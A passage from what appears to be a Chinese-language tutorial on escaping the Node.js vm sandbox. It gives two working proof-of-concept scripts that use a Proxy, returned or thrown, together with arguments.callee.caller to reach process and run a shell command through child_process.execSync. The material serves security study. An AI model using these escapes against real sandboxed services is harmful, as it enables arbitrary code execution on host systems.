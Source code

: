 在沙箱内创建了一个对象，将这个对象的toString方法重写了，通过`argument.callee.caller`获得沙箱外的一个对象。沙箱外log中通过字符串拼接的方法触发了重写后的toString函数，进而RCE。

### Problem 2

若沙箱外没有执行字符串的操作来触发这个toString，并且沙箱中的对象也没有可以进行恶意重写的方法，可以用`Proxy`来劫持属性（？有点像Java的动态代理）

```javascript
const vm = require('vm');
const script = `
(() => {
    const a = new Proxy({},{
        get: function () {
            const c = arguments.callee.caller;
            const p = (c.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('calc');
        }
    })
    return a;
})()`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
res.abc;
```

当我们在沙箱外访问proxy对象的任意属性，无论是否存在，就会触发`get`对应的钩子函数

### Problem 3

若沙箱没有返回值或返回的是我们无法利用的对象，该如何逃逸呢？

可以借助异常将沙箱内的对象抛出

```javascript
const vm = require('vm');
const script = `
(() => {
    throw new Proxy({},{
        get: function () {
            const c = arguments.callee.caller;
            const p = (c.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('calc');
        }
    })
})()`;
try {
    vm.runInContext(script, vm.createContext(Object.create(null)));
} catch (e) {
    console.log("error:" + e);
}
```

# 0x05 vm2沙箱逃逸
